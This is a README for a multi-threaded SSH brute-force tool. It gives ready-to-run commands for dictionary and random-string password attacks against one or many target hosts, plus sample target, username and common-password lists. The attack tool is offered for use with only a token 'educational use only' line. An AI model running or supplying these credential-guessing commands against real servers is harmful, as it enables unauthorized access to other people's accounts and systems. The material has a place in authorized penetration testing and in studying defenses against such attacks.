 # SSH Brute Forcer

Simple multi threaded SSHBrute Forcer, Standard Brute Forcing and Dictonary based attacks.

Note: The brute force method is really bad just trys random strings with different lengths. Also it will attempt to create a lot of threads if you say 1000 attempts it will create 1000 threads.. Why you might ask because no one should really ever use this feature.

### Single Ip Dictonary Attack
```
python SSHBruteForce.py -i 127.0.0.1 -d True -p 2222 -U ./usernames.txt -P ./passwords.txt
```
### Single Ip Dictonary Attack Specifying threads and timeout
```
python SSHBruteForce.py -i 127.0.0.1 -d True -p 2222 -U ./usernames.txt -P ./passwords.txt -t 15 -T 30
```

### Multiple Ip Dictonary Attack
```
python SSHBruteForce.py -I ./targets.txt -d True -p 2222 -U ./usernames.txt -P ./passwords.txt -t 15 -T 30
```

### Single Ip BruteForce Attack
```
python SSHBruteForce.py -i 127.0.0.1 -p 22 -a 100 -l 8
```

### Multiple Ip BruteForce Attack
```
python SSHBruteForce.py -I targets.txt -p 22 -a 100 -l 8
```

* Example of `targets.txt`:
```
127.0.0.1:22
127.0.0.2:23
```

* Example of `usernames.txt`:
```
jimmyj
derpt
marth
```

* Example of `passwords.txt`:
```
love
god
sex
boss
12345
zaqwsx
secret
```

For educational use only.